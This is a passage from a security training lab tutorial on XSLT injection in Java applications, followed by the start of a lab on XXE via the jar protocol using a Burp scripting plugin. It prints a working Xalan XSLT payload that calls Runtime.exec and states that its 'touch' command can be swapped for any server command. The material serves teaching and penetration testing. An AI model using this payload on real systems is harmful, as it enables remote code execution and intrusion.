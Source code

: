 Extensible Stylesheet Language Transformations (or XSLT) is a text format that describes the transformation applied to XML documents. The official specification provides basic transformation. Languages such as Java and .NET have introduced extension to allow the invocation of method from the stylesheet. The Java implementation is more prone to vulnerability being enabled by default. It has the capability to access all class in the classpath.

If you are seeing a feature that allows you to configure an XSLT file in a Java application, remote code execution might be possible.

```xml
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:date="http://xml.apache.org/xalan/java/java.util.Date"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
xmlns:str="http://xml.apache.org/xalan/java/java.lang.String"
exclude-result-prefixes="date">
    <xsl:output method="text"/>
    <xsl:template match="/">
    <xsl:variable name="cmd"><![CDATA[touch /tmp/test1234]]></xsl:variable>
    <xsl:variable name="rtObj" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
    <xsl:text>Process: </xsl:text><xsl:value-of select="$process"/>
    </xsl:template>
</xsl:stylesheet>
```

In the root node, classes (`java.lang.Runtime` and `java/java.lang.String`) are imported for future reference. To customize the previous payload, you need to edit the assignment `<xsl:variable name="cmd"><![CDATA[touch /tmp/test1234]]></xsl:variable>`. The `touch` command can be replaced with any command available on the server.










## LAB 4: Jar protocol
Duration: 00:15:00

![Preview website](assets/exercise4/image4.png)


### Solution


#### Generating a script

To exploit this service, we will need to evaluate multiple URLs with the same XXE base payload. To send those similar requests, we can encapsulate the logic inside a script.

Here is a demonstration of the Burp plugin [Reissue Request Scripter](https://portswigger.net/bappstore/6e0b53d8c801471c9dc614a016d8a20d). The request exported is the POST request to `/admin/upload`. 

Negative
: Make sure to submit the form in order to see the request in your Burp history.
